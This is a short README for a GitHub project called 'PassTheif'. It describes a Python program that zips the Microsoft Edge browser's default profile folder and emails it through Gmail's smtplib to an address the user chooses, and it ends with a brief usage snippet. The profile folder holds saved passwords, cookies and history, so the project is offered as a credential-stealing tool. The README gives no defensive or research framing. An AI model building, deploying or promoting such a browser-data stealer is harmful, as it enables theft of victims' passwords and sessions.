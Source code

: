 # PassTheif program

This program will, when executed, grab the entire edge default folder 
end email it to a chosen email address. You will not need to install any 
packages.

The file will compress the edge default folder and send it using `smtplib` 
to the email you input. You will need to use a gmail account for this 
to work. you will need to replace the placeholder text starting from 
[line 11](https://github.com/voidarclabs/py.passtheif/blob/main/test.py#L11)

## To run:

```
import passthief

passtheif.grab()
```